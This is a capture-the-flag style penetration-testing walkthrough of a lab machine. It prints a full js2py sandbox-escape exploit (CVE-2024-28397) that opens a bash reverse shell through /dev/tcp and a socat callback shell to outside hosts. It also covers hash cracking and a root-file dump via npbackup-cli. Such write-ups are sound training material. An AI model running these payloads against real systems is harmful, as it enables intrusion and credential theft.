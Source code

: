 ![](images/image0.png)

# **Target Machine Walkthrough**

This report documents the full exploitation process of the target machine, structured in a professional **penetration testing style walkthrough**. It covers reconnaissance, enumeration, exploitation, credential access, lateral movement, privilege escalation, and flag capture.

## **🔍 Reconnaissance**

We begin with a full TCP port scan using **Nmap**:

```
nmap -p- -Pn 10.129.237.227 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && \
sleep 5 && nmap -Pn 10.129.237.227 -sC -sV -v -oN nmap_sVsC.txt && \
sleep 5 && nmap -T5 -Pn 10.129.237.227 -v --script vuln -oN nmap_vuln.txt
```

![](images/image1.png)

## **📦 Application Enumeration**

[![][image2]](https://github.com/Ma*rven11/CVE-2024-28397-js2py-Sandbox-Escape)

We discover a `/download` endpoint allowing us to retrieve `app.zip`. After extraction:

```
unzip app.zip
cd app
cat app.py
```

![](images/image3.png)

Checking the dependencies in `requirements.txt`:

![](images/image4.png)

## **⚡ Exploitation – CVE-2024-28397 (js2py Sandbox Escape)**

The application leverages `js2py`, which is vulnerable to a sandbox escape (CVE-2024-28397). Reference: [GitHub – CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

We adapt the PoC exploit to achieve a reverse shell:

```
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.15.30/4445 0>&1'"

let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for (let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if (item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n1
```

![](images/image5.png)

## **🖥️ Reverse Shell & Stabilization**

Successful reverse shell connection established:

![](images/image6.png)

We stabilize the shell using socat:

```
chmod +x socatx4.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

![](images/image7.png)

## **🗄️ Database Discovery**

Inside the `instance` folder we discover a SQLite database:

![](images/mage8.png)

The database contains user password hashes:

![](images/image9.png)

Identifying the hash format:

![](imagesimage10.png)

We successfully crack `marco’s` password hash:

![](images/image11.png)

## **👤 User Access**

We log in as `marco` with the cracked credentials

![](images/image12.png)

We obtain the `user flag` from Marco’s desktop

## **🔝 Privilege Escalation – npbackup-cli**

We identify a privilege escalation vector via `npbackup-cli`. Reference: [npbackup-cli PrivEsc](https://github.com/AliElKhatteb/npbackup-cli-priv-escalation)

We modify the exploit (line 11):

![](images/image13.png)

Transferred to the host and executed:

![](images/image14.png)

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --backup
```

Finally, we dump the `root flag`:

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id a42c804d
```

## **🏁 Results & Conclusion**

**Attack Path:**

* **Recon** → Identified `/download` endpoint.  
* **Enumeration** → Found `js2py` vulnerable.  
* **Exploitation** → CVE-2024-28397 (reverse shell).  
* **Database Enumeration** → Extracted Marco’s hash, cracked credentials.  
* **Privilege Escalation** → npbackup-cli exploit → root access.  
* **Flags** → Obtained both `user.txt` and `root.txt`.

**Outcome:** Successful full compromise of the machine.
